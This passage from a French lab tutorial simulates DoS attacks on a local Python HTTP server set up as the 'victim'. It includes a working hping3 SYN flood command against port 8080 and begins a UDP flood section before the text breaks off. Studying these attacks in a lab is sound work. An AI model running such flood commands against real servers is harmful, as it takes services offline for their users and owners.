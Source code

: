 1. **Configurer un serveur web simple** :
   
   - Installez un serveur **HTTP** léger avec `SimpleHTTPServer` en Python pour simuler une **victime**.
   
     ```bash
     sudo apt install python3
     ```
   - Démarrez le serveur :
   
     ```bash
     python3 -m http.server 8080
     ```
   - Le serveur écoutera sur le port **8080** et servira les fichiers du répertoire courant.

### 2.2 Simulation d'une Attaque SYN Flood

#### Attaque SYN Flood avec `hping3`

L'attaque **SYN Flood** envoie des requêtes **SYN** en masse sans jamais compléter le **handshake TCP**, surchargeant ainsi les ressources du serveur.

1. **Installer `hping3`** :
   
   ```bash
   sudo apt install hping3
   ```

2. **Lancer une attaque SYN Flood** :
   
   Exécutez la commande suivante pour simuler une attaque **SYN Flood** sur le serveur :
   
   ```bash
   sudo hping3 -S --flood -p 8080 <IP_du_serveur>
   ```
   - **-S** : Envoi de paquets **SYN**.
   - **--flood** : Envoi de paquets à la vitesse maximale.
   - **-p 8080** : Cible le port **8080** où le serveur HTTP écoute.

3. **Observer l'impact** :
   
   Utilisez des outils comme `top` ou `htop` sur le serveur pour surveiller l'**utilisation du CPU** et de la **mémoire** :
   
   ```bash
   top
   ```
   Essayez également d'accéder au serveur via un navigateur pour vérifier que le service est indisponible.

### 2.3 Simulation d'une Attaque UDP Flood

#### Attaque UDP Flood avec `hping3`

L'attaque **UDP Flood** inonde le serveur avec des paquets **UDP**, saturant ainsi la bande passante et les ressources réseau.

1. **Lancer une attaque UDP Flood** :
   